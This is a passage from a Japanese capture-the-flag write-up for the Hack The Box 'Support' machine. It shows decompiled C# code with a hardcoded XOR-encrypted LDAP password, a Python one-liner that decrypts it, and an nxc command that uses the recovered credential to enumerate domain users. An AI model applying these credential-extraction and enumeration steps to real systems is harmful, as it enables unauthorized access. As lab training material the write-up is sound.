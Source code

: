 `Procted.getPassword();`をみると、Base64＋XORで暗号化されたパスワードを復号するクラスがあり、復号前のパスワードは、`0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E`であることがわかる
![](https://i.imgur.com/ZHWB5Wj.png)

以下、コード部のみ抽出
```c
using System;
using System.Text;

namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```

そこで、復号する
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine]
└─$ python3 -c "import base64; enc='0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E'; key=b'armando'; data=base64.b64decode(enc); print(''.join([chr(b ^ key[i % len(key)] ^ 223) for i, b in enumerate(data)]))"
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

これで、LDAPの`ldap`ユーザーの認証情報を取得できた
- `ldap` : `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`


# Lateral Movement
- `ldap`ユーザーの認証情報を使って、情報収集する
```bash
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Support]
└─$ nxc ldap support.htb0 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users
LDAP        10.129.230.181  389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
LDAP        10.129.230.181  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
LDAP        10.129.230.181  389    DC               [*] Enumerated 20 domain users: support.htb
LDAP        10.129.230.181  389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.129.230.181  389    DC               Administrator                 2022-07-19 10:55:56 0        Built-in account for administering the computer/domain      
LDAP        10.129.230.181  389    DC               Guest                         2022-05-28 04:18:55 0        Built-in account for guest access to the computer/domain    
```